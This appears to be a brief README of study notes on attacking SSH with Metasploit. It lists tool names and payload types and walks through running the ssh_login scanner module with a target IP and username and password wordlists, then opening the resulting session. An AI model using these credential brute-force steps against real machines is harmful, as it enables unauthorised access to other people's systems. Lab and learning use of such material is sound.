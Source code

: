 # SSH

    -Anonymous authentication
    -Directory traversal attack
    -Cross-site scripting
    -Dridex

## Tools

-Kali Linux
-Metasploit
    - ``` msfconsole ```
    - ``` msfweb ``` 
    - ``` msfplayload ```
    - ``` msfcli ```
    - ``` msflogdump ```

## Payloads

    - Singles
    - Stagers
    - Stages

### Starting exploit

- Open Metasploit: ``` msfconsole ```

- ``` search ssh_login ```

![Alt text](./search.png "search")

- Now you need use the IP from the target machine you want to exploit

- ``` use auxiliary/scanner/ssh/ssh_login ```

- ``` set rhosts "IP_TARGET_MACHINE"  ```
- ```set USER_FILE /home/kali/uiser.txt```
- ``` set PASS_FILE /home/kali/password.txt ```

- Do the exploit and after type sessions 1




### Results


![Alt text](./exploit.png "result")